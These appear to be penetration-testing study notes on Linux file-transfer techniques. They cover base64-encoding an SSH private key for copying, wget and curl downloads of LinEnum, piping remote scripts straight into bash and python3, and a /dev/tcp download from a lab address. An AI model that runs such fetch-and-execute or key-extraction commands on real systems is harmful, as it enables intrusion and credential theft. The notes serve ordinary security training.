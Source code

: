 (Directly copying to the clipboard)
```
cat id_rsa |base64 -w 0 | xsel -i --clipboard
```

- decoding
```shell-session
echo -n"<b64>" | base64 -d 
```

Then we can compare md5 checksums to verify if the successfulness of the transfer

## <mark class="hltr-cyan">Web Downloads</mark>

- wget
```shell-session
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

- curl
```shell-session
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## <mark class="hltr-cyan">Fileless Attacks</mark>

Fileless attacks use pipes in linux

- bash
Here we pipe a script file to bash
```shell-session
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

- python
Here we pipe a script file to python
```shell-session
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

## <mark class="hltr-cyan">Download with Bash (/dev/tcp)</mark>

There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.

1) First we have to connect to the target webserver
```shell-session
exec 3<>/dev/tcp/10.10.10.32/80
```

2) Then we send a GET request
```shell-session
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```
